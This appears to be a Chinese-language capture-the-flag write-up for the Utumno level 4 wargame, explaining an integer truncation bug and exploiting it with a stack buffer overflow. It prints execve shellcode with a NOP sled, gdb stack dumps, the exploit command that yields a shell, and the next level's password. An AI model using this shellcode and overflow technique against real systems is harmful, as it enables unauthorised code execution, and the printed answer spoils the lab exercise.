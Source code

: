 转的过程实际上是将eax的低16位复制过去(ax表示eax的低16位)。所以我们把arg1的低16位弄成全为0传进去就ok了(2**16=65536)。

还是用shellcode环境变量,上号用gdb看一下栈上的情况。

```bash
utumno4@utumno:/utumno$ export SHELLCODE=$(python -c 'print 200 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')
utumno4@utumno:/utumno$ gdb utumno4

(gdb) break *main
Breakpoint 1 at 0x804844b: file utumno4.c, line 20.
(gdb) r
Starting program: /utumno/utumno4 

Breakpoint 1, main (argc=1, argv=0xffffd574) at utumno4.c:20
20	utumno4.c: No such file or directory.

(gdb) x/1200wx $esp

...
0xffffdd7c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd8c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdd9c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddac:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddbc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddcc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdddc:	0x90909090	0x90909090	0x90909090	0x90909090
---Type <return> to continue, or q <return> to quit---
0xffffddec:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddfc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde0c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde1c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde2c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde3c:	0x90909090	0xc0319090	0x2f2f6850	0x2f686873
0xffffde4c:	0x896e6962	0x31c931e3	0x2c0fb0d2	0x0080cd04
0xffffde5c:	0x52455355	0x7574753d	0x346f6e6d	0x44575000
0xffffde6c:	0x74752f3d	0x6f6e6d75	0x4e494c00	0x333d5345
0xffffde7c:	0x4f480030	0x2f3d454d	0x656d6f68	0x7574752f
0xffffde8c:	0x346f6e6d	0x48535300	0x494c435f	0x3d544e45
0xffffde9c:	0x2e333831	0x2e373232	0x2e303032	0x20383931
...
```

选一个雪橇中间的位置，就选`0xffffddcc`吧,长得比较整齐。

退出gdb输入构造好的命令。观察栈布局，需要填充65286个。

```bash
utumno4@utumno:/utumno$ ./utumno4 65536  $(python -c "print '\x90'*65286+'\xcc\xdd\xff\xff'")
$ whoami
utumno5
$ cat /etc/utumno_pass/utumno5
woucaejiek

```
